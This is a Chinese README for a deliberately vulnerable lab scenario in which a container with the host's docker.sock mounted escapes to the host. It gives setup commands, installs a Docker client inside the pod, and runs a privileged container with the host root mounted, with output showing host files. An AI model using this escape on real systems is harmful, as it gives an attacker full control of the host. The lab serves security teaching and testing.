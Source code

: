 # 挂载docker.sock导致容器逃逸

## 场景介绍

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），可通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部，完成简单逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install mount-docker-sock
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-docker-sock`的pod。

宿主机的`/var/run/docker.sock`被挂载在容器内部。

## 漏洞复现

通过以下两个步骤来完成简单逃逸：

1. 在容器内安装Docker命令行客户端
2. 使用容器内的客户端通过Docker socket与Docker守护进程通信，发送命令创建并运行一个挂载宿主机根目录的容器，实现基本逃逸。

具体操作如下:

执行以下命令进入容器:

```bash
kubectl exec -it mount-docker-sock -n metarget bash
```

在容器内安装Docker命令行客户端:

```
先将源替换为中科大源
sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
apt update&& apt install -y wget
然后下载编译好的docker 客户端
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xf ./docker-17.03.0-ce.tgz
cd /docker
```

成功安装Docker客户端:

```
root@mount-docker-sock:/# cd /docker
root@mount-docker-sock:/docker# ls
docker  docker-containerd  docker-containerd-ctr  docker-containerd-shim  docker-init  docker-proxy  docker-runc  dockerd
```

执行docker命令`docker ps`,结果和宿主机相同，证实docker.sock挂载成功：

![image-20210618140609650](images/1.png)

然后可以借此启动一个挂载宿主机根目录的特权容器，完成简单逃逸：

```
root@mount-docker-sock:/docker#./docker run -it -v /:/host --privileged --name=sock-test ubuntu /bin/bash
root@1cec1bf980fb:/# ls /host/
bin   dev  evil  initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  etc  home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz  w00t_w00t_im_a_flag
root@1cec1bf980fb:/# cat /host/etc/hostname
cloudplay
```

## 参考文献

1. https://mp.weixin.qq.com/s/_GwGS0cVRmuWEetwMesauQ